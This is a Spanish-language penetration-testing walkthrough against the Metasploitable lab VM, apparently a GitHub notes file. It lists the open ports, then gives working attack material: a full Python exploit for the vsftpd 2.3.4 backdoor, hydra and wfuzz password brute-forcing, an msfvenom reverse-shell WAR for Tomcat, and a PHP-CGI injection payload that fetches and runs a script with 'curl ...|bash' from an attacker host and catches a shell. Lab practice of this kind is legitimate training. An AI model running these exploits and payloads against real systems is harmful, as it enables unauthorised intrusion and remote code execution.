



## Puertos abiertos

```
21/tcp    open  ftp         vsftpd 2.3.4
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp    open  telnet      Linux telnetd
25/tcp    open  smtp        Postfix smtpd
53/tcp    open  domain      ISC BIND 9.4.2
80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
512/tcp   open  exec        netkit-rsh rexecd
513/tcp   open  login       OpenBSD or Solaris rlogind
514/tcp   open  tcpwrapped
1099/tcp  open  java-rmi    GNU Classpath grmiregistry
1524/tcp  open  bindshell   Metasploitable root shell
2049/tcp  open  nfs         2-4 (RPC #100003)
2121/tcp  open  ftp         ProFTPD 1.3.1
3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5-log
3632/tcp  open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp  open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp  open  vnc         VNC (protocol 3.3)
6000/tcp  open  X11         (access denied)
6667/tcp  open  irc         UnrealIRCd
6697/tcp  open  irc         UnrealIRCd
8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
34828/tcp open  nlockmgr    1-4 (RPC #100021)
43218/tcp open  status      1 (RPC #100024)
57525/tcp open  mountd      1-3 (RPC #100005)
59555/tcp open  java-rmi    GNU Classpath grmiregistry
```

----

## vsftpd 2.3.4

[https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)

Este módulo explota una puerta trasera maliciosa que se agregó al archivo de descarga `VSFTPD`. Esta puerta trasera se introdujo en el archivo vsftpd-2.3.4.tar.gz entre el 30 de junio de 2011 y el 1 de julio de 2011 según la información más reciente disponible. Esta puerta trasera se eliminó el 3 de julio de 2011.

Exploit: [https://github.com/ahervias77/vsftpd-2.3.4-exploit](https://github.com/ahervias77/vsftpd-2.3.4-exploit)

```
#!/usr/bin/python3

import time, signal, sys, socket, pdb

def def_handler(sig,frame):
	print("\n[!] saliendo...\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def exploit(ip, port, command):
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((ip,int(port)))

		s.send(b'USER TEST:)\n')
		s.send(b'PASS xxx\n')
		time.sleep(2)
		s.close()

	except Exception as e:
#		pdb.set_trace()
		print(str(e))
		sys.exit(1)


	try:
		print('[*] Conectando...')
		s1 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s1.connect((ip, 6200))
		print('[+] Conectando en {}:6200'.format(ip))
		command = str.encode(command + '\n')
		s1.send(command)
		response = s1.recv(1024).decode('utf-8')
		print('[+] Response:\n', response, sep='')
		s1.close()

	except Exception as e:
		print(str(e))

if __name__=="__main__":
	if len(sys.argv) < 4:
		print("Use: ./exploit.py <IP> <PORT> <COMMAND>")

	else:
		exploit(sys.argv[1], sys.argv[2], sys.argv[3])
```

----

## VNC 5900

VNC o Virtual Network Computing es un servicio que utiliza el protocolo `Remote Frame Buffer` para permitir el acceso remoto gráfico de otro sistema. Es una sesion interactiva ya que el usuario puede dar las entradas del mouse y del teclado a través de VNC al sistema original.

Fuerza bruta con `hydra`

```
❯ hydra -s 5900 -P /usr/share/wordlists/rockyou.txt 192.168.0.110 -t 20 -f -V vnc
[...]
[ATTEMPT] target 192.168.0.110 - login "" - pass "babygirl" - 16 of 14344402 [child 15] (0/0)
[ATTEMPT] target 192.168.0.110 - login "" - pass "monkey" - 17 of 14344402 [child 16] (0/0)  
[ATTEMPT] target 192.168.0.110 - login "" - pass "lovely" - 18 of 14344402 [child 17] (0/0)  
[ATTEMPT] target 192.168.0.110 - login "" - pass "jessica" - 19 of 14344402 [child 18] (0/0) 
[ATTEMPT] target 192.168.0.110 - login "" - pass "654321" - 20 of 14344402 [child 19] (0/0)  
[ATTEMPT] target 192.168.0.110 - login "" - pass "michael" - 21 of 14344402 [child 1] (0/0)  
[ATTEMPT] target 192.168.0.110 - login "" - pass "ashley" - 22 of 14344402 [child 0] (0/0)   
[ERROR] unknown VNC server security result 2                                                 
[ERROR] unknown VNC server security result 2                                                 
[ATTEMPT] target 192.168.0.110 - login "" - pass "qwerty" - 23 of 14344402 [child 2] (0/0)
[ATTEMPT] target 192.168.0.110 - login "" - pass "111111" - 24 of 14344402 [child 5] (0/0)   
[5900][vnc] host: 192.168.0.110   password: password     
[STATUS] attack finished for 192.168.0.110 (valid pair found)                                
```

```
❯ vncviewer 192.168.0.110:5900
```



----

## Tomcat 8180

Pruebe el panel de administración

```
/manager/html
```

Es posible probar autenticaciones básicas como:

```
tomcat:tomcat
tomcat:s3cret
admin:admin
admin:tomcat
```

Una forma de automatizar estas autenticaciones es utilizando la herramienta `wfuzz`

```
❯ wfuzz -w /opt/metasploit-framework/embedded/framework/data/wordlists/tomcat_mgr_default_pass.txt -c --basic FUZZ:FUZZ http://192.168.0.110:8180/manager/html
[...]
000000001:   401        0 L      44 W       948 Ch      "admin - admin"    
000000003:   401        0 L      44 W       948 Ch      "role1 - role1"    
000000007:   401        0 L      44 W       948 Ch      "vagrant - vagrant"
000000006:   401        0 L      44 W       948 Ch      "s3cret - s3cret"  
000000004:   401        0 L      44 W       948 Ch      "root - root"      
000000002:   401        0 L      44 W       948 Ch      "manager - manager"
000000005:   200        360 L    816 W      13341 Ch    "tomcat - tomcat"  
```

Creao un war malicioso

```
❯ sudo msfvenom -p java/jsp_shell_reverse_tcp lport=4444 lhost=192.168.0.107 -f war > shell.war
```



Pongo en escucha

```
❯ sudo nc -lvnp 4444
[sudo] password for noroot: 
listening on [any] 444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.110] 42626
whoami
tomcat55
hostname
metasploitable
```

----

## Telnet 23

Telnet es el nombre de un protocolo de red que nos permite acceder a otra máquina para manejarla remotamente como si estuvieramossentados delante de ella.

Reutilizacion de credenciales

```
❯ telnet 192.168.0.100
Trying 192.168.0.100...
Connected to 192.168.0.100.
Escape character is '^]'.
                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


metasploitable login: msfadmin
Password: 
Last login: Wed Oct 13 12:31:34 EDT 2021 on tty1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
msfadmin@metasploitable:~$ whoami
msfadmin
```

----

## PHP - -CGI 80

Info:  
[https://www.welivesecurity.com/la-es/2012/05/09/grave-vulnerabilidad-php-cgi-parte-i/](https://www.welivesecurity.com/la-es/2012/05/09/grave-vulnerabilidad-php-cgi-parte-i/)

Buscando exploits

Otra forma:  
[https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/1212-exploits/cve-2012-1823.py.txt](https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/1212-exploits/cve-2012-1823.py.txt)


```
[...]
PHP 5.3.12/5.4.2 - CGI Argument Injection (Metasploit)                                               | php/remote/18834.rb
PHP 5.5.9 - 'zend_executor_globals' 'CGIMode FPM WriteProcMemFile' disable_functions Bypass / Load D | php/webapps/38127.php
PHP < 5.3.12 / < 5.4.2 - CGI Argument Injection                                                      | php/remote/18836.py
PHP PHP/fi 2.0 - Directory Traversal                                                                 | cgi/remote/20567.txt
phpBB 2.0.10 - Remote Command Execution (CGI)                                                        | php/webapps/673.pl
[...]
```



```
❯ python cgi.py 192.168.0.100 80
POST /?-dallow_url_include%3don+-dauto_prepend_file%3dphp://input HTTP/1.1
Host: 192.168.0.100
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

<?php system('curl http://192.168.0.107:8000/test|bash'); ?>
[...]

───────────────────────────────────────────────────────────────────────────
❯ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.0.100 - - [13/Oct/2021 12:14:59] "GET /test HTTP/1.1" 200 -


───────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.100] 40869
sh: no job control in this shell
sh-3.2$ whoami
www-data
```
